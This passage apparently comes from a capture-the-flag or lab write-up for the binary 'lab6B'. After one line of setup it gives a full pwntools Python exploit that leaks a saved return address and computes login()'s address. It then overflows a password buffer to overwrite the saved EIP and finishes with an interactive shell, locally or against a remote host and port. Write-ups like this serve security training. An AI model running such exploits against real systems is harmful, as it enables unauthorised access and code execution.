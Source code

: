 Putting everything together, the following exploit will grant us a shell.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def exploit(r):
  ## Login Attempt 1
  r.recvuntil("username: ")
  r.sendline("A"*32) # non-null terminated username
  r.recvuntil("password: ")
  r.sendline("B"*32) # non-null terminated password
  
  r.recv(115)
  leakedptr = u32(r.recv(4)) # saved EIP
  log.success("leaked ptr "+str(hex(leakedptr))+" found")
  login = (leakedptr^0x3030303)-0x48a 
  log.success("login() found @ "+str(hex(login)))
  
  x = (leakedptr^login)^0x41414141 # value which will be used to transform saved EIP to &login
  
  ## Login Attempt 2
  r.recvuntil("username: ")
  r.sendline("A"*32)
  r.recvuntil("password: ")
  r.sendline("B"*20+p32(x)+"B"*8) # overwrites password[20] 
  log.success("saved EIP overwritten w/login()!") 
  
  ## Login Attempts 3-5
  for i in range(3):
    r.recvuntil("username: ")
    r.sendline("A")
    r.recvuntil("password: ")
    r.sendline("B")
  
  r.recvuntil("\n")
  r.interactive()
if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process([ './lab6B'])
    print util.proc.pidof(r)
    pause()
    exploit(r)
{% endhighlight %}
